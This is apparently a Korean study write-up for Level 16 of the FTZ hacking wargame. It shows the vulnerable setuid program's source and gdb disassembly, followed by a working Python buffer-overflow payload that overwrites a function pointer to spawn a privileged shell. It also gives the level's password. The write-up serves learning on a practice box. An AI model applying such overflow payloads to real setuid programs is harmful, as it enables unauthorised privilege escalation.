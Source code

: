 ```yaml
---
sort: 16
---
```


# Level 16

```note
id : level16

password : about to cause mass
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
 
void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

함수포인터인 call에 저장되어있는 printit 함수 주소를 shell 함수 주소로 바꾸면 끝난다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048518 (main+0):	push   %ebp
0x08048519 (main+1):	mov    %esp,%ebp
0x0804851b (main+3):	sub    $0x38,%esp

<b>0x0804851e (main+6):	movl   $0x8048500,0xfffffff0(%ebp) </b>

0x08048525 (main+13):	sub    $0x4,%esp
0x08048528 (main+16):	pushl  0x80496e8
0x0804852e (main+22):	push   $0x30

<b>0x08048530 (main+24):	lea    0xffffffc8(%ebp),%eax
0x08048533 (main+27):	push   %eax
0x08048534 (main+28):	call   0x8048384 (fgets) </b>

0x08048539 (main+33):	add    $0x10,%esp

<b>0x0804853c (main+36):	mov    0xfffffff0(%ebp),%eax
0x0804853f (main+39):	call   *%eax </b>

0x08048541 (main+41):	leave  
0x08048542 (main+42):	ret


(gdb) disas shell
Dump of assembler code for function shell:
<b>0x080484d0 (shell+0):	push   %ebp </b>
0x080484d1 (shell+1):	mov    %esp,%ebp
0x080484d3 (shell+3):	sub    $0x8,%esp
0x080484d6 (shell+6):	sub    $0x8,%esp
0x080484d9 (shell+9):	push   $0xc19
0x080484de (shell+14):	push   $0xc19
0x080484e3 (shell+19):	call   0x80483b4 (setreuid)
0x080484e8 (shell+24):	add    $0x10,%esp
0x080484eb (shell+27):	sub    $0xc,%esp
0x080484ee (shell+30):	push   $0x80485b8
0x080484f3 (shell+35):	call   0x8048364 (system)
0x080484f8 (shell+40):	add    $0x10,%esp
0x080484fb (shell+43):	leave  
0x080484fc (shell+44):	ret    
0x080484fd (shell+45):	lea    0x0(%esi),%esi
</pre>

shell 함수 주소는 0x080484d0이다.

```bash
# padding 0x28 byte + 0x080484d0
[level16@ftz level16]$ (python -c "print('A'*0x28+'\xd0\x84\x04\x08\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```